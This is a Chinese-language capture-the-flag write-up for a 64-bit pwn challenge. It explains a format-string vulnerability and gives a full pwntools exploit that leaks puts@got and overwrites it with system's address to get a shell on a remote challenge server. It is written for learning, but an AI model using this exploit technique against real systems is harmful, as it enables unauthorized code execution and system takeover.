 # W3 puts or system

## 文件分析

下载`putsorsys`, NX on, PIE off, Canary on, RELRO partial  
ghidra分析为64位程序

## 逆向

程序可多次输入，且存在格式化字符串漏洞；在printf后，执行了`puts("/bin/sh")`  
根据题意，将puts调用替换为system调用就可以拿到shell

由于程序relro保护为partial，因此可以直接将`puts@got`地址改为system地址即可

## 踩过的坑

%n系列写地址输出过的字符是**累计的**，所以计算失误就会导致攻击失败，
因此可以把小的数字放在前面，大的数字放在后面，方便计算

## EXPLOIT

```python
from pwn import *
elf = ELF('putsorsys')
sh = remote('node4.buuoj.cn', 29595)
putsGot = elf.got['puts']

# payload 1
sh.sendline(b'1')
sh.sendlineafter(b'it', b'%9$sxxxx' + p64(putsGot)) # get puts@got

sh.recvuntil(b':\n')
putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
#addr = putsGotAddr - 0x179bf0 + 0x14f760
addr = putsGotAddr - 0x180ed0 + 0x150d60 # libc given, shift puts to system
print(hex(addr))

# payload 2
sh.sendline(b'1')
highAddr = (addr & 0xff0000) >> 16
sh.sendlineafter(b'it', f'%{highAddr}c%11$hhn%{(addr & 0xffff) - highAddr}c%12$hn'.ljust(24, '0').encode() + p64(putsGot + 2) + p64(putsGot))

sh.interactive()
```

## 第一次三血！

<img src="../assets/3rdBlood.jpg" width="40%" title="好耶">

Done.
